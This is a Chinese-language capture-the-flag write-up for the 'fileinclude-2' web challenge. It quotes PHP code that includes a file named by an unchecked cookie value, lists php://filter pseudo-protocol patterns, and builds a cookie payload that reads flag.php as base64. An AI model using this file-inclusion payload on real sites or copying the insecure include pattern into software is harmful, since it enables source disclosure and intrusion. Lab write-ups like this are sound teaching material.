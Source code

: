 # WEB-攻防世界fileinclude-2
- 关键词 考查php伪协议读取源码

## 1.题目描述
打开环境可以看到下图所示
![990b2e5b1c35fcdcd03ebea0ddb67b53.png](../_resources/990b2e5b1c35fcdcd03ebea0ddb67b53.png)
提示了flag在flag.php
尝试了一下，查看源码直接能看到逻辑
![3633c1f4a3209d30f7a517dcabf53a47.png](../_resources/3633c1f4a3209d30f7a517dcabf53a47.png)
```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

## 解题思路
这段就很明显了，基本逻辑是从cookie里面读取language的值，如果不为空，则会include ['language'].php

这里就可以看到可以用伪协议来尝试读取flag.php。
## 简单的php://filter利用方式
```php
读：php://filter/resource=文件名
 
php://filter/read=convert.base64-encode/resource=文件名
 
写：php://filter/resource=文件名&txt=文件内容
 
php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容
```
## 构造payload
我们构造cookie中的language=php://filter/write=convert.base64-encode/resource=flag
则拼接之后正好是flag.php
![4ffda3f450069eac605c8fc29df0dc43.png](../_resources/4ffda3f450069eac605c8fc29df0dc43.png)
得到一个base64的字符，解码即可
![2a74dd541c832e717ba6423ed84e65ae.png](../_resources/2a74dd541c832e717ba6423ed84e65ae.png)
